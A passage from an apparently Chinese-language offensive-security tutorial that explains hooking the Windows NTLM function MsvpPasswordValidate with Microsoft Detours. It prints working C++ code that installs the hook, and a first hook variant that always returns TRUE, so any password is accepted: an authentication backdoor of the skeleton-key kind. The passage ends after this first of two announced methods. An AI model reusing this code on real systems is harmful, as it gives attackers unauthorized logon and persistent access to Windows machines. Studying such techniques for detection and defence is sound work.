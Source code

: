 接着就是 Hook 代码的实现，在 DetourAttach 中其实就是一个 hook 操作，而实现函数为 HookMSVPPValidate。这里 111.txt 无太大作用，刚开始为了调 bug，索性加的。

```bash
bool InstallHook() {
    std::wofstream credentialFile;
    credentialFile.open("D:\\111.txt", std::fstream::in | std::fstream::out | std::fstream::app);
    HMODULE ntmlModule = LoadLibrary(L"NtlmShared.dll");
    if (ntmlModule == nullptr) {
        credentialFile << L"Domain: " << L"load error" << std::endl;
        return false;
    }
    MsvpPasswordValidate = (pMsvpPasswordValidate)GetProcAddress(ntmlModule, "MsvpPasswordValidate");
    credentialFile << L"Domain: " << L"MsvpPasswordValidate address: " << MsvpPasswordValidate << std::endl;
    if (MsvpPasswordValidate == nullptr) {
        credentialFile << L"Domain: " << L"GetProcAddress error" << std::endl;
        return false;
    }
    DetourTransactionBegin();
    DetourUpdateThread(GetCurrentThread());
    LONG detourAttachResult = DetourAttach(&(PVOID&)MsvpPasswordValidate, HookMSVPPValidate);
    if (detourAttachResult != NO_ERROR) {
        credentialFile << L"Domain: " << L"DetourAttach error - " << detourAttachResult << std::endl;
        DetourTransactionAbort();
        return false;
    }
    LONG code = DetourTransactionCommit();
    if (code != NOERROR) {
        credentialFile << L"Domain: " << L"Error" << std::endl;
    }
    else {
        credentialFile << L"Domain: " << L"true" << std::endl;
    }
    credentialFile.close();
    return true;
}
```

而 HookMSVPPValidate 就是做操作的地方了。这里有两种方式。  
1.不用输入密码

```bash
BOOLEAN HookMSVPPValidate(BOOLEAN UasCompatibilityRequired,
    NETLOGON_LOGON_INFO_CLASS LogonLevel,
    PVOID LogonInformation,
    void* Passwords,
    PULONG UserFlags,
    PUSER_SESSION_KEY UserSessionKey,
    PVOID LmSessionKey) {
    return TRUE;
}
```
